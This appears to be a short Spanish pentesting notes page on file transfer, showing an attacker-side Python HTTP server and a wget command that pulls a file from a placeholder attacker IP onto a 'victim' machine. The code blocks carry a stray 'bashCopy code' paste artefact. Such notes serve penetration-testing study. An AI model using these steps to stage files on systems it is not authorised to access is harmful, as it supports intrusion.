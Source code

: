 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Transferencias de Archivos

**Usando un Servidor HTTP Simple:**

* En la máquina atacante, inicia un servidor HTTP simple:

```bash
bashCopy codepython3 -m http.server 8080
```

* En la máquina víctima, utiliza `wget` o `curl` para descargar el archivo:

```bash
bashCopy codewget http://direccion_ip_atacante:8080/archivo.txt
```

* Reemplaza `direccion_ip_atacante` con la dirección IP de la máquina atacante y `archivo.txt` con el nombre del archivo.
